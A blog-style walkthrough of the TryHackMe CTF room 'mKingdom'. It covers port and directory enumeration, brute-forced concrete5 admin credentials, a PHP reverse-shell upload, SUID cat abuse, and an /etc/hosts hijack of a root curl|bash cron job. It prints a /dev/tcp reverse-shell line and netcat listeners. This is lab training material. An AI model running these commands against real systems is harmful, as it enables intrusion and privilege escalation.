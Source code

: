 ```yaml
---
layout: post
title: mKingdom Writeup (TryHackMe)
author: wizarddos
category: writeups
excerpt_separator: <!--more-->
---
```


Another day, another machine. This time we'll try to solve [mKingdom](https://tryhackme.com/r/room/mkingdom)
This is a really new machine for me, as it was published a day or two ago, so off we go.
<!--more-->

### Enumeration

Start with port scan

```
$ rustscan -a $IP -- -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \\ |  `| |
| .-. \\| {_} |.-._} } | |  .-._} }\\     }/  /\\  \\| |\\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: <http://discord.skerritt.blog>           :
: <https://github.com/RustScan/RustScan> :
 --------------------------------------
😵 <https://admin.tryhackme.com>

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.52.202:85
[~] Starting Script(s)
[...]
PORT   STATE SERVICE REASON  VERSION
85/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

```

Only one port open? All right, we're going to figure something out.

### Web Enumeration

The index page itself had no interesting information, so I brute-forced directories with `gobuster`

```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u "<http://$IP:85/>" -x html,js,txt,php -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://10.10.52.202:85/>
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
[...]
/app                  (Status: 301) [Size: 312] [--> <http://10.10.52.202:85/app/>]
/index.html           (Status: 200) [Size: 647]
/index.html           (Status: 200) [Size: 647]
/server-status        (Status: 403) [Size: 292]
Progress: 23080 / 23085 (99.98%)
===============================================================
Finished
===============================================================

```

There's `/app` directory - let's visit it

`/app` has just a button, but when we click it, we get redirected to a blog running `concrete5` CMS

Wappalyzer gave us the version - `8.5.2`

### Web Exploiting

I was looking for some exploits online and I've found [this report](https://vulners.com/hackerone/H1:768322)
But it requires a user, which we don't have yet

Yet bit of brute-forcing gave me creds `admin:password`

Now it's time to follow that report - Go to navbar -> `System & Settings` -> `Files` -> `Allowed File Types`
Then edit that input and add `php`

Now go to `Files` in the same nav and upload PHP reverse shell - like the one from [`pentestMonkey`](https://github.com/pentestmonkey/php-reverse-shell)

After upload we see the link - set up a netcat listener

```
$ nc -lvnp 1337

```

Now visit that link and we've got the shell

### Privilege escalation pt.1 - User `toad`

Stabilize your shell with Python.

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

```

Now I see that `cat` has SUID permissions as `toad`

```
$ find / -type f -perm -04000 -ls 2>/dev/null
[...]
-rwsr-xr-x 1 toad root 47K Mar 10  2016 /bin/cat
[...]

```

Quick trip to `GTFOBins` assured me that I can read files in `toad` home dir - like `.bashrc`

It gave me something

```
$ /bin/cat /home/toad/.bashrc

[...]
export PWD_token='[TOKEN]'

```

After decoding I got something
Let's save it. It might be useful one day

`LinPeas` gave me as well

```
╔══════════╣ Searching passwords in config PHP files
            'password' => '[REDACTED]',
const USER_CHANGE_PASSWORD_URL_LIFETIME = 7200;
const USER_PASSWORD_RESET = 24;
const UVTYPE_CHANGE_PASSWORD = 1;
            'password_credentials' => t('Password Credentials'),

```

And it's the password for `toad`

```
$ su toad
Password: [REDACTED]

```

### Privilege Escalation pt.2 - User `mario`

Turns out `PWD_TOKEN` which we've found in `/home/toad/.bashrc` is mario's password

Time for root!

### Privilege Escalation pt.3 - Root

Running `pspy` gave me something - every interval some process sends an http request to the domain

```
2024/06/15 17:24:01 CMD: UID=0     PID=12304  | curl mkingdom.thm:85/app/castle/application/counter.sh
2024/06/15 17:24:01 CMD: UID=0     PID=12303  | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log

```

We can "hijack" the domain and put in this `counter.sh` another reverse shell as `/etc/hosts` allows us to write something in it

```
$ ls -la /etc/hosts
ls -la /etc/hosts
-rw-rw-r-- 1 root mario 342 Jan 26 19:53 /etc/hosts

```

Let's create a payload first
We need following directory structure

```
/app
  /castle
    /application

```

And inside `application` a file called `counter.sh` with reverse shell

```
bash -i 1>& /dev/tcp/[YOUR IP]/1338 0>&1

```

Now, go back 3 directories and start python web server on port 85

```
$ cd ../../../
$ python3 -m http.server 85

```

After all, in another terminal set up a `netcat` listener

```
$ nc -lvnp 1338

```

Coming back to attacked machine - replace the contents of `/etc/hosts` with an entry for `mkingdom.thm` pointing to your IP

```
$ echo "[YOUR IP]      mkingdom.thm" > /etc/hosts

```

After a while, root shell should appear in our `netcat` listener

```
# whoami
root

```

And that's it - machine pwned!

### Little annotation to flags

Because `cat` has `toad` user as its owner and has SUID bit set, we can't read any flag using it
Luckily `vi` works - use it to read the flags. You can exit it by typing `:q`

## Conclusion

It was tough, I'll be realistic

There was a lot of dead ends and I've struggled to solve it for a while
I'd rate it more as `medium` rather than `easy`, even though mostly it was pretty straight forward

Remember, enumeration is key and don't forget about `pspy`

See you next time!